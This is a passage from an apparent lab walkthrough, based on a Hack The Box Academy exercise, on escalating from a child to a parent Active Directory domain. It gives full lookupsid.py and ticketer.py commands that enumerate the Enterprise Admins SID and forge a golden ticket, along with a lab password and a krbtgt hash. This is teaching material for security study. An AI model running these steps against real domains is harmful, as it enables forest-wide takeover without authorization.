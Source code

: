 logistics.inlanefreight.local


#### Step 5: getting the SID of the Enterprise Admins group of the root domain

Next, we can rerun the command, targeting the INLANEFREIGHT Domain Controller (DC01) at 172.16.5.5. We will perform a **SID enumeration** on the target system and filter the results to find information related to the **Enterprise Admins** group in the Active Directory (AD) domain. For filtering we will use the RID of the Enterprise Admins group. [Here](active-directory-security-identifiers.md) is a handy list of well-known SIDs.

```shell-session
lookupsid.py $targetedDomain/$UserWithAdminPriv@$DomainControllerIP | grep "Enterprise Admins"
# Example:
# lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep "Enterprise Admins"
# Enter password: HTB_@cademy_stdnt_admin!

# Way2:
lookupsid.py LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm@INLANEFREIGHT.LOCAL | grep "Enterprise Admins"
# Enter password: HTB_@cademy_stdnt_admin!
```

Result:
```
519: INLANEFREIGHT\Enterprise Admins (SidTypeGroup)
```

As the domain SID was: `S-1-5-21-3842939050-3880317879-2865463114` and the RID is `519`, the SID of "Enterprise Admin" group is `S-1-5-21-3842939050-3880317879-2865463114-519` .


#### Step 6: Generate a golden ticket 

Next, we can use [ticketer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py) from the Impacket toolkit to construct a Golden Ticket. This ticket will be valid to access resources in the child domain (specified by `-domain-sid`) and the parent domain (specified by `-extra-sid`).

```shell-session
ticketer.py -nthash $KRBTGThashOfChildDomain -domain $targetedDomain -domain-sid $sidDomain -extra-sid $SIDofEnterpriseAdminGroup $madeupUserName
# Example:
# ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker
```

The ticket will be saved down to our system as a credential cache (ccache) file, which is a file used to hold Kerberos credentials:

```
[*] Saving ticket in hacker.ccache
```


Setting the KRB5CCNAME environment variable tells the system to use this file for Kerberos authentication attempts.
